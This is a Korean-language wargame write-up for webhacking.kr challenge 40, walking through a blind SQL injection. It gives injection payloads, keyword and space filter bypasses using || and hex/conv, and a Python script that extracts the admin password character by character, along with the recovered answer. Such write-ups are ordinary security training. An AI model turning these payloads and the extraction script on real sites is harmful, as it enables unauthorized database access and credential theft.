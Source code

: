 ```yaml
---
title: "[webhacking.kr] 40번 문제 풀이[blind sql injection]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - blind sql injection
toc: true
toc_sticky: true
toc_label: "40번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/webhacking.jpg
---
```


💡 Webhacking.kr challenge(old) 40번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
  ![image](https://user-images.githubusercontent.com/33647663/152694607-688cddb7-17ac-4809-a930-00c50242ad4b.png)


# 문제 풀이
  기본 값을 그대로 로그인을 시도하면 guest로 로그인이 성공합니다.

  ![image](https://user-images.githubusercontent.com/33647663/152694685-cac35a83-f192-4678-b4c5-e8a03b68c74e.png)


  id,no,pw 를 다른 값으로 바꿔서 시도하면 다음과 같은 화면이 나옵니다.

  ![image](https://user-images.githubusercontent.com/33647663/152694709-e1c49ab4-9c4d-41e5-bc43-f5aaa46f0e27.png)

  이제 입력이 가능한 no,id,pw에 injection을 시도해 봅니다.



  id,pw 에는 
  ```sql
' or 1=1-- 
  ```
  을 시도해 보았지만 취약점이 발견되지 않았습니다.

  no에는 다음을 입력해 보았더니 access denied, 즉 필터링 되었습니다.

  ```sql
3 or 1=1-- 
  ```

  ![image](https://user-images.githubusercontent.com/33647663/152694769-1e21978a-004a-4bc2-85e0-f9e93b565356.png)



  입력 값을 몇개 시도해 보니, no를 통해서 인젝션이 되었습니다. 'or' 이 필터링 되어서 '\|\|'로 대체하였고, 띄어쓰기(%20)가 필터링 되어서 붙여서 썼습니다. 


  ```sql
3||no=2
  ``` 

  ![image](https://user-images.githubusercontent.com/33647663/152694905-9a5bcf12-ec20-4b81-8179-00166af451ca.png)

  위의 값을 입력해 주면 다음 페이지로 이동되는데, admin password를 구해야 합니다.

  이 이후부터는 전형적인 blind sql injection으로 파이썬 코드로 대체하겠습니다.

  기존 문제와 다른 점은 select문이 필터링 되어 있어서 information_schema를 이용하는것은 불가능 했습니다.

  또한 ord,ascii가 필터링 되어 있었기 때문에 hex 함수를 이용해서 우회를 했습니다.

  ```sql
  hex('a') = 61 # 주어진 문자를 ascii 16진수로 반환
  conv(61,16,10) = 97 # 맨 첫 인자를 16진수에서 10진수로 변환
  ```

  위의 함수들을 이용해서 ascii와 동일한 기능을 구현할 수 있습니다.

  ![image](https://user-images.githubusercontent.com/33647663/152695103-825180a6-f26c-4bcc-802c-332bc03339ba.png)



  ```python
import requests
from tqdm import tqdm
url = "https://webhacking.kr/challenge/web-29/"

TRUE_FLAG = "Success"
FALSE_FLAG = "Failure"


# 1. pw 길이
for i in range(20):
    params = "?id=guest&pw=guest&no=3||(length(pw)={})".format(i)
    response = requests.get(url + params)
    if(FALSE_FLAG not in response.text):
        print("password length: ", i)


# admin 계정의 pw 길이는 10

# 2. pw
for i in range(1,11):
    password = ''
    for j in range(127,20,-1):
        params = "?id=guest&pw=guest&no=3||(conv(hex(substr(pw,{0},1)),16,10)={1})".format(i,j)
        response = requests.get(url+params)
        if(FALSE_FLAG not in response.text):
            password += chr(j)
            if(i>5):
                break
    print(i," : ",password)
  ```

# 결과
  코드를 실행하면 다음과 같이 출력합니다.

  ![image](https://user-images.githubusercontent.com/33647663/152695172-7aaa9344-4507-4842-a3e6-498992450665.png)

  DB에는 guest와 admin 2가지 계정의 비밀번호가 있기 때문에 5번째 자리까지는 2번 출력되는 것을 볼 수 있습니다. 이때 1-5까지는 'guest'를 제외하고 보면 admin의 비밀번호는

  luck_admin 인 것을 알 수 있습니다.

  ![image](https://user-images.githubusercontent.com/33647663/152695240-90635e28-b6db-468c-b4e6-2781b2a8a339.png)



